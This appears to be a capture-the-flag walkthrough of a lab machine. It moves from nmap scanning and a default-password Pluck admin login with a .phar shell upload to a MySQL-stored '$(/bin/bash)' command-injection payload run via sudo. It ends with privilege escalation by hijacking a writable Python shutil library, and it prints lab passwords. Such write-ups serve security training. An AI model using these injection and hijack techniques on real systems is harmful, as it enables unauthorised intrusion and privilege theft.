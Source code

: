 first check out open ports 

```bash
nmap 0.0.0.0 -sV -Pn -sC
```

there is open port 80, some page

`http://10.201.48.24/app/pluck-4.7.13/admin.php?action=page`

after digging find admin panel with default credentaials a `password` used and login web panel there i can upload a file `.phar` format revershell or cmd console

seaching for clue `opt` was a key inside file find password

username: `lucien`
password: `HeyLucien#@1999!`

let's connect with ssh

```bash
ssh lucien@0.0.0.0
```

seems  only death user can run command `sudo -l`
there is was a flag to get second inside the code `/opt/getDreams.py` i found vulnurbilty to run command and `.bash_history` current user has credentails for mysql database

vulnrabile code 

```python
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )

        # Create a cursor object to execute SQL queries
        cursor = connection.cursor()

        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
        query = "SELECT dreamer, dream FROM dreams;"

        # Execute the query
        cursor.execute(query)

        # Fetch all the dreamer and dream information
        dreams_info = cursor.fetchall()

        if not dreams_info:
            print("No dreams found in the database.")
        else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)

    except mysql.connector.Error as error:
        # Handle any errors that might occur during the database connection or query execution
        print(f"Error: {error}")

    finally:
        # Close the cursor and connection
        cursor.close()
        connection.close()

# Call the function to echo the dreamer and dream information
getDreams()
```

 let's get into mysql 

```bash
mysql -u lucien -plucien42DBPASSWORD
```

mysql i found library database

```mysql
use library
```

and adding some value there could added reverse shell or command i chosed command

```mysql
insert into dreams values ("elster", "$(/bin/bash)")
```

it help to get shell of death, exit after inserting a value

```
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```

get credentails `cat /home/death/getDreams.py` and exit you will output look for password

username: `death`
password: `!mementoMORI666!`

```bash
ssh death@0.0.0.0
```

find the flag

let's do privilge escalation 
i check a file in morpheus and there is a file some text and script script does backup which mean we could use to privileg escalation i need find library to changle file privileg to access 

```bash
find / -group death -type f 2>/dev/null | grep shutil
```

after find a file i need insert this code somewhere that should execute this code

```python
os.system("chmod 777 /home/morpheus/morpheus_flag.txt")
```

than cat this file

```bash
cat /home/morepheus/morpheus_flag.txt
```

I got the flag